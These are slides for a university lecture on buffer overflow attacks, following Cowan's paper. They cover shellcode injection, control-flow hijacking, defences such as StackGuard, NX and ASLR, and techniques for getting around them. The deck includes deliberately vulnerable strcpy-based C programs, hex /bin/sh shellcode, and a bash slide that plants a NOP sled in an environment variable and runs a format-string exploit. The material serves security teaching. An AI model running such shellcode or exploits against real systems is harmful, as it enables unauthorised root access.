



class: center, middle

# Buffer Overflow
## Insights and comments about ***C. Cowan***' s paper
### (lecture 08)

---

class: middle

.right-column[
# Agenda

<pre>
BoF Goals
├─ Code Arrangement
│  ├─ Inject
│  └─ Already there
└─ Jump to it
   ├─ What will be corrupted?
   ├─ Activation Record
   ├─ Function Pointers
   └─ Longjmp buffers
</pre>
]
---

# Steps

.blockquote[
<i>
**1**. Arrange for suitable code to be available in the program's address
  space.


**2**. Get the program to jump to that code, with suitable
    parameters loaded into registers & memory.
</i>
]

.footnote[[Buffer Overflows: Attacks and Defenses for the Vulnerability of the
Decade](https://crypto.stanford.edu/cs155/papers/cowan-vulnerability.pdf)]

---

.left-column[
# Step 1
]
.right-column[
## <em><b><i>a. Inject it</i></b></em>
## b. It is already there
]

---

.left-column[
# Step 1.a
##### what code should be injected?
]
.right-column[
<div style="padding-top: 150px"/>
- must be binary opcodes (attackers can't compile)
- must be [position-independent](http://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/)
(*an additional level of indirection to all global data and function
references in the code. Code can be easily mapped into different memory addresses without
needing to change one bit.*)
]

---

.left-column[
# Step 1.a
##### what code should be injected?
##### Example
]
.right-column[
<div style="padding-top: 200px"/>
What the code really does is not important, but for historical
reasons, the code spawns a shell.
For this reason it is always called *Shellcode*.
- Very simple (naive) shellcode: `execve /bin//sh`
- Something like: `31 c9 f7 e1 b0 0b 51 68 2f 2f 73 68 68 2f 62 69 6e 89 e3 cd 80`
(*naive, static, 21B shellcode*)

**Note:** if the executable is root *set-uid*, then you got a root
shell! Does you remember SUID bit?!

**Question:** Do you know why `/bin/sh` instead `/bin/bash`?
]

---

.left-column[
# Step 1.a
##### what code should be injected?
##### Example
##### Where code should be injected?
]
.right-column[
<div style="padding-top: 250px"/>
- In the same buffer (overflowed)
- In another buffer
- In an environment variable (easier to be located, very high address)
- Everywhere in memory, **attackers are** really **creative**
]

---
.left-column[
## In the buffer
]
.right-column[
<div style="padding-top: 100px"/>
```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

  char buf[128];
  if(argc < 2) return 1;

  strcpy(buf, argv[1]);
  printf("%s\n", buf);

  return 0;
}
```
]

---

.left-column[
## In another buffer
]
.right-column[
<div style="padding-top: 100px"/>
```c
#include<string.h>

// The devil is in the details - nnp

void copy_buffers(char *argv[])
{
	char buf1[32], buf2[32], buf3[32];

	strncpy(buf2, argv[1], 31);
	strncpy(buf3, argv[2], sizeof(buf3));
	strcpy(buf1, buf3);
}

int main(int argc, char *argv[])
{
	copy_buffers(argv);
	return 0;
}
```
]
---

.left-column[
## In the environment
]
.right-column[
<div style="padding-top: 100px"/>
```bash
# Export the environment variable
# [NOP sledge + Shellcode]
export SH=`python -c 'print "\x90"*40000+   \
	"\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e \
	 \x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3 \
	 \x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1 \
	 \xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68 \
	 \x4a\x41\x41\x43\x43\x4b\x4b\x4b\x4b"'`

# Launch the exploit
./vuln-prog `python -c 'print "\xd4\x94\x04 \
	\x08FLOW\xd6\x94\x04\x08
	%57076x%4$n%57599x%6$n"'` 1> /dev/null
```

]
.footnote[
_**Question:** Do you know what kind of attack is it?_
]
---

.left-column[
# Step 1
]
.right-column[
## a. Inject it
## <em><b><i>b. It is already there</i></b></em>
]

---


.left-column[
# Step 1.b
]
.right-column[
<div style="padding-top: 150px"/>
**_Sometimes attackers can't inject shellcodes._**
]

---

.left-column[
# Step 1.b
##### Why?
]
.right-column[
<div style="padding-top: 150px"/>
- Stack smashing is hard in the presence of
  [StackGuard](https://www.usenix.org/legacy/publications/library/proceedings/sec98/full_papers/cowan/cowan.pdf)
  and [StackShield](http://www.angelfire.com/sk/stackshield/)
  furthermore, it is hard to inject code when stack is *non-executable*
  (`NX` bit).
- Input vector is limited (buffer size, no environment disposable, **application firewall** ...)
- Other security mechanism like <a href="https://en.wikipedia.org/wiki/Address_space_layout_randomization">ASLR</a><sup>1</sup>(more later)
- ...
]
.footnote[
1.[https://pax.grsecurity.net/docs/aslr.txt](https://pax.grsecurity.net/docs/aslr.txt)
]
---

.left-column[
# Step 1.b
##### Why?
##### Ploys?
]
.right-column[
<div style="padding-top: 200px"/>
**Pointers and gadgets<sup>1</sup> are already there..**
]

.footnote[
1. The term **gadget** is improperly used. Typically in *ROP* a gadget is a
   small instruction sequences ending with a `ret` (`c3`). Here we use
   it to denote whatever _bytecodes sequence_ (instruction) could be useful
   (like `jmp [addr_SHELLCODE]`).
]
---

.left-column[
# Step 1.b
##### Why?
##### Ploys?
]
.right-column[
<div style="padding-top: 200px"/>
**Pointers and gadgets<sup>1</sup> are already there..**
**Memory is not a panacea of zeros..**
]

.footnote[
1. The term **gadget** is improperly used. Typically in *ROP* a gadget is a
   small instruction sequences ending with a `ret` (`c3`). Here we use
   it to denote whatever _bytecodes sequence_ (instruction) could be useful
   (like `jmp [addr_SHELLCODE]`).
]
---

.left-column[
# Step 1.b
##### Why?
##### Ploys?
]
.right-column[
<div style="padding-top: 200px"/>
**Pointers and gadgets<sup>1</sup> are already there..**
**Memory is not a panacea of zeros..**


Common techniques that leverage this idea are:

<table border="0" cellspacing="5" cellpadding="5">
  <tr>
    <th>Technique</th>
    <th>Defeat</th>
  </tr>
  <tr><td>Return to libc</td><td right>NX bit, StackGuard</td></tr>
  <tr><td>Return to GOT </td><td right>NX bit, StackGuard</td></tr>
  <tr><td>ROP (&co)     </td><td right>NX bit, StackGuard, ASLR</td></tr>
</table>
]

.footnote[
1. The term **gadget** is improperly used. Typically in *ROP* a gadget is a
   small instruction sequences ending with a `ret` (`c3`). Here we use
   it to denote whatever _bytecodes sequence_ (instruction) could be useful
   (like `jmp [addr_SHELLCODE]`).
]
---

.left-column[
# Step 2
##### Jump to that code
]
<div style="padding-top: 150px"/>
.right-column[
In order to jump to the suitable code, attackers must corrupt the
normal program flow by overwriting or mangling:

- Activation records
- Function Pointers
- Longjmp buffers
]

---

.left-column[
# Step 2
##### Jump to that code

**Activation Record**
]
<div style="padding-top: 220px"/>
.right-column[
The portion of the stack used for an invocation of a function. Also called the
function's stack frame.
]

---

.left-column[
# Step 2
##### Jump to that code

**Activation Record**
]
.right-column[
```c
#include <stdio.h>
int x = 4;
void printx(void) { printf("%x\n", x); }
void foo(int y) {
	int x = 4;
	x = x + x * y;
	printx();
}
void main() {
	int z = 3;
	printx();
	foo(z);
}
```

]

.footnote[
Dynamic link (AKA Control link) points to the activation record of the caller.
]
---

.left-column[
# Step 2
##### Jump to that code

**Activation Record**
]
.right-column[
```c
void foo(char *args)
{
  char buf[256];
  strcpy(buf, args);
}
int main(int argc, char *argv[])
{
  if (argc > 1)
    foo(argv[1]);
  return 0;
}
```

]
.footnote[
[http://matthias.vallentin.net/course-work/buffer_overflows.pdf](http://matthias.vallentin.net/course-work/buffer_overflows.pdf)
]
---

.left-column[
# Step 2
##### Jump to that code

**Function pointers**
]
<div style="padding-top: 200px"/>
.right-column[
The deliberate modification of the value of a pointer is referred to as
_pointer subterfuge_. As these types of attacks modify directly the control flow
of the program, they are also known as control flow attacks. Originally, pointer
subterfuge attacks were developed to evade stack protection mechanisms.
]

---

.left-column[
# Step 2
##### Jump to that code

**Function pointers**
]
.right-column[
```c
void foo(void *arg, size_t len)
{
  char buf[256];
  void (*f)() = 0xabad1dea;
  memcpy(buf, arg, len);
  f();
  return;
}
```

]

.footnote[
[http://matthias.vallentin.net/course-work/buffer_overflows.pdf](http://matthias.vallentin.net/course-work/buffer_overflows.pdf)
]
---

.left-column[
# Step 2
##### Jump to that code

**longjmp**
]
.right-column[
<div style="padding-top: 200px"/>
**Setjmp** and **longjmp** are the common **try**/**catch** statements for C
language.


_setjmp_ save the current state (environ) of the process, in order to jump back
to it.


_longjmp_ does the stack unwinding in order to restore the previous saved state
by _setjmp_.


We prefer to not spoil the [IO netgarage level16](https://io.netgarage.org/).
One of our favorite challenge! Check it out.
]
---

.left-column[
# Recap

]
.right-column[
<div style="padding-top: 150px"/>
- Secure coding = _**Utopia**_
- StackGuard = **Defeated**
- NX bit = **Defeated**
- ASLR = **Defeated**
- PointGuard = ???
- **It is _NOT_ only a C/C++ problem!** <br><br><u>_Food for thoughts_</u>:<br>Interpreter, compiler, JIT, VM in which language are written?
]

---

# Resources

- [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html)
- [IO](Smashing The Stack For Fun And Profit)
- [Ret2libc](http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Return_to_libc/Return_to_libc.pdf)
- [Intro to ROP](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html)
- [Journey into exploitation](http://www.myne-us.com/2010/08/from-0x90-to-0x4c454554-journey-into.html)
- [Useful links](http://pastebin.com/aqGvjhgB)
- [bjhua security course](http://staff.ustc.edu.cn/~bjhua/courses/security/2014/lectures.html)

## About

- **Author**: Giacomo Mantani
- **Email**: name dot surname at studio.unibo.it
- **IRC**: j4ke (on Freenode)
